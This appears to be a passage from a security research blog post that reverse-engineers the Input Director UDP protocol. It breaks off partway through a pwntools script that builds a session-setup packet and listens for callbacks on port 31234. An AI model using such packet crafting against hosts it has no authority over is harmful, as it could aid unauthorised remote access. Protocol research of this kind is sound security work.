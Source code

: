<img src = "/assets/images/inputdirector/udp_capture.png">

Analyzing this a bit, there were only a couple of aspects that were changing from packet to packet. Luckily, 8 years ago someone did a large amount of research on this protocol, and the general construction was outlined on GitHub, which saved me quite a bit of time! 

- [https://github.com/uix5/info-inpdir](https://github.com/uix5/info-inpdir)

I decided to start building out a Python script to construct packets, and then make a session request while spinning up my own listening port on 31234 to listen for callbacks from the host. Sending a `session setup` packet ("\x1A" flag) with a 16-byte GUID, which can be arbitrary (I used "0xdeadbeefdeadbeef" x2), if the target host is open, it will respond with an ACK-like packet over port 31234. 

```python
from pwn import *

sessionPacket = dict ({
	"magicHeader":          b"\x17\x22\x01\x00\x03\x8F\x3B\xD4\x17\x22\x01\x00",
	"headerLength":         b"\xB4\x00\x00\x00",
	"protocolVersion":      b"\x13\x00\x00\x00",
	"packetType":           b"\x1A\x00\x00\x00",  # -> This is the RPC command for session start
	"packetLength":         b"\xA4\x00\x00\x00",
	"sequenceNumber":       b"\x01\x00\x00\x00",
	"sessionKey":           b"\xde\xad\xbe\xef\xde\xad\xbe\xef\xde\xad\xbe\xef\xde\xad\xbe\xef",
	"sourceAddress":        b"\xC0\xA8\x19\x01",
	"sourcePort":           b"\x02\x7A\x00\x00",
	"headerLengthRepeat":   b"\xB4\x00\x00\x00",
	"encType":              b"\x00",
	"encPwTestAndUnknown":  b"\x00\x00\x00",
```